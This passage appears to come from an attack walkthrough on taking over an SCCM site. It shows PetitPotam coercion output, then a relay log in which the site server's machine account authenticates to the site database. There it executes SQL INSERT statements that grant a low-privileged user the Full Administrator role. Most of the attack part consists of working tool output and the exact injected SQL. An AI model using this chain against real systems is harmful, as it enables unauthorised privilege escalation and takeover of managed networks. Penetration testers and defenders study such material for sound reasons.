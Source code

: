                                                                                                 
                ___            _        _      _        ___            _                     
                | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
                |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
                _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
            _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
            "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                            
                PoC to elicit machine account authentication via some MS-EFSRPC functions
                                        by topotam (@topotam77)
        
                        Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the site database server to execute the SQL statements:

    ```
    [2024-02-22 16:37:17] [*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.57.50, attacking target mssql://192.168.57.51
    [2024-02-22 16:37:17] [*] Authenticating against mssql://192.168.57.51 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-22 16:37:17] [*] Executing SQL: USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');
    [2024-02-22 16:37:17] [*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-22 16:37:17] [*] ENVCHANGE(DATABASE): Old Value: master, New Value: CM_PS1
    [2024-02-22 16:37:17] [*] INFO(SITE-DB): Line 1: Changed database context to 'CM_PS1'.
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider.
